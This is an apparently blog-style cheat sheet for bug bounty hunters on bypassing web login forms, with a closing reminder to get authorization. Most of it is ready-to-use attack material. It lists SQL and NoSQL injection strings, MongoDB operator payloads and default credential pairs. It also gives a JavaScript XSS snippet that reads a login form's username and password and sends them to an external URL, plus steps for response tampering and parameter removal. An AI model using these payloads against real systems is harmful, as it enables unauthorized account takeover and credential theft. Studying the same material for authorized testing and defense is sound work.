

# Web Login Bypassing Techniques for Bug Bounty Hunters: 😎🚀

> "To login or not to login, that is the question... but we have the answers!" 🕵️‍♂️🔓

Greetings, fellow bug bounty hunters! Are you ready to embark on a wild adventure of bypassing web login systems? Buckle up and prepare to witness some mind-boggling techniques that will make you go "Woah!" Let's dive into the chaos and unleash our hacking skills! 💥




## 1. SQL Injection: The Art of Database Mischief 🎭

Injecting SQL queries into login fields is our secret weapon! Here's a taste of the madness we can create:

```sql
- Microsoft, Oracle, PostgreSQL:
    - admin' or '1'='1
    - admin'--
    - admin' or 1=1--
    - admin' or '1'='1'--
    - admin}" or 1=1--

- MySQL:
    - admin'-- -
    - admin'#
    - admin' or 1=1#
    - admin' or 1=1-- -
    - admin' or '1'='1'-- -
    - admin' or '1'='1'#

- Let the chaos reign! 💥
```

[Get the whole cheet-sheet](https://github.com/carlospolop/hacktricks/blob/master/pentesting-web/login-bypass/sql-login-bypass.md)


## 2. NoSQL Injection: Unleashing Madness in NoSQL Realm 🐆

Who said NoSQL databases are immune to our hacking shenanigans? Brace yourselves for some NoSQL injection payloads:


```
- Mongo:

    - admin' || 1==1//
    - admin' || 1==1%00
    - admin' || '1==1
    - admin' || '1'=='1'
```


## 3. Operator-Based Attacks: Dancing with Operators 💃🎩

Operators hold the key to our login bypass extravaganza. Get ready to manipulate and conquer with these operator-based payloads:

```bash
- $ne (Not equal):
    - username[$ne]=xyz&password[$ne]=xyz

- $regex (Regular expressions):
    - username[$regex]=.*&password[$regex]=.*
    - username[$regex]=^xyz&password[$regex]=^xyz

- $exists (Exists in the database):
    - username[$exists]=true&password[$exists]=true

- $nin (Not include):
    - username[$nin][admin]=admin&password[$ne]=xyz

- $gt (Greater than) and $lt (Lower than):
    - username[$gt]=s&password[$gt]=s
    - username[$lt]=s&password[$lt]=s

- The operator symphony begins! 🎩🎶
```

## 4. Default Credentials: Breaking the "Admin:Admin" Monotony 🥱💤


{: .dark .w-75 .shadow .rounded-10 w='1212' h='668' }

Yawn! Default credentials are a bug bounty hunter's best friend. Let's shake things up with some unexpected username/password combos:

```bash
- admin:admin
- admin:password
- admin:password1
- admin:password123
- administrator:password
- administrator:password1
- administrator:password123

- Time to expose those default culprits! 😈🔑
```
[Default-passwords](https://datarecovery.com/rd/default-passwords/)


## 5. Wildcard Brute Force: Unleashing Chaos with Wildcard Magic! 🃏🔥

When wildcards (*) are allowed, the real fun begins! Brace yourselves for the epic wildcard brute force:

```bash
- username = *
- password

 = *

- Turbo Intruder in Burp Suite will be your trusty sidekick for this madness! 💪🦸‍♀️
```

## 6. Registration as Existing User: Adding a Twist to the Game 🎭🔑

Registering as an existing user? Let's spice it up with these variations:

- Register with the same username:
    - `admin`
    - `admin%00`
    - `(space)admin`

Go ahead and test these payloads using the registration form on the target website. Time to make the login system question its existence! 😜


>Some Additional tactics to bypaasssss!
{: .prompt-info }

## 7. CSRF via XSS and see the victims credentials. This is the CSRF payload for it 
```js
<script>
function intercept() {
 
 var user = document.forms[0].elements[0].value;
 var pass = document.forms[0].elements[1].value;
 
 
 var xhr = new XMLHttpRequest();
 
 xhr.open("GET", "https://your-target-url?username/email="+user+"&password="+pass)
 xhr.send();
return false;
 }
 document.forms[0].onsubmit = intercept;
 
</script>
```

## 8. By Manipulating the Response

This method mainly based on Response Status code manipulation and Response Body manipulation. 
- First of all make an account on your target 
- Login with correct credentials and intercepts request in burp suite and analyze the response 
- Try to login with wrong credentials and manipulate the response as you see it with your correct credentials like

```
403 Forbidden  
<redacted>  
{"error":true, "message":"Invalid Token"}
```
<br>

```
200 OK  
<redacted>  
{"success":true}
```
## 9. By Removing Parameter in Request

When you enter wrong credentials the site shows error like username and password is incorrect/does not match, password is incorrect for this username etc,

 - [ ] First you intercept the request and remove the `password parameter` in the request and `forward` the request. 
 - [ ] Then the server sees that the username is available and logs you in to the site. This problem occurs when the server does not analyze the request properly.


<br>
<br>


> **Important Note:** While these techniques can be used for legitimate security testing, always ensure that you have proper authorization and permission before attempting any login bypass or brute force attacks. Stay ethical, my friends! 🕵️‍♀️🔒
{: .prompt-tip }


